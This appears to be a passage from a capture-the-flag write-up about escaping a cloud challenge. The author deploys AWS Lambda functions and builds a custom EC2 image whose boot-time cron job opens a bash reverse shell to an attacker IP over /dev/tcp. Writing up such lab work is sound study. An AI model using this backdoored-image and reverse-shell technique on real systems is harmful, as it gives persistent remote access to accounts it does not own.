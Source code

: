 We can deploy the function with 

```bash
$ rm code.zip && zip -r code.zip ec2.py && aws lambda create-function --role arn:aws:iam::051751498533:role/lambda_agent_development_role --handler ec2.lambda_handler --package-type Zip --zip-file fileb://code.zip --runtime python3.8 --timeout 100 --profile tisc --function-name user-b7def4a2c289478ba30912da680787a7-test

$ aws lambda invoke --profile TISC --function-name user-b7def4a2c289478ba30912da680787a7-test test --log-type Tail --query 'LogResult' --output text |  base64 -d
```

Ok now the explaining part. As you can see, from my deployment command that I got frustrated having to continually zip new scripts and just made it all into one command. So yea, I did deploy a lot of functions. Why? Well... I did try a lot of things that didn't work out such as

1. Reverse shell into the lambda function (other people managed to do it. I did not. Not entirely sure why)
2. Open reverse shell with script supplied via user data (worked for others not for me). This was particularly hard to debug... and I wasn't sure why it didn't work. So I moved on to try other things. 
3. Referencing the script from within lambda itself
4. VPC sharing. Not enough perms for that. 
5. Trying to generate a IPV4 address for the EC2 and using the user-data script to generate keys instead of opening shell. 
6. Cycling through a bunch of different AMIs cause even the template they provided didn't specify. 
7. Recreate the policies and subnets on my aws account to debug what could possibly be going wrong. (did not find out what went wrong)


The solution that eventually worked for me was to create a custom AMI (the one in the script is the custom) that opens a reverse shell on boot. I'm too lazy to screenshot and document the steps required to create an AMI since I opted to use the web console. I just followed the [docs](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/creating-an-ami-ebs.html). Essentially, what I did was

1. Create and launch standard EC2 instance with ssh keys and everything
2. SSH in and create a cronjob that opens a reverse shell.
To do so, 
```
$ crontab -e 
```
and write 
```
@reboot /start.sh
```
Contents of `start.sh`
```bash
/bin/bash -l > /dev/tcp/<ip>/12321 0<&1 2>&1
```  
3. Create an AMI from that instance
4. Share that AMI with the account. Account ID can be found using `aws sts get-caller-identity`
5. Reference that AMI in the lambda function deploy
6. BOOM reverse shell 

We already know the 4 commands that are available to us (I definitely did not nmap the whole network. oops...), 
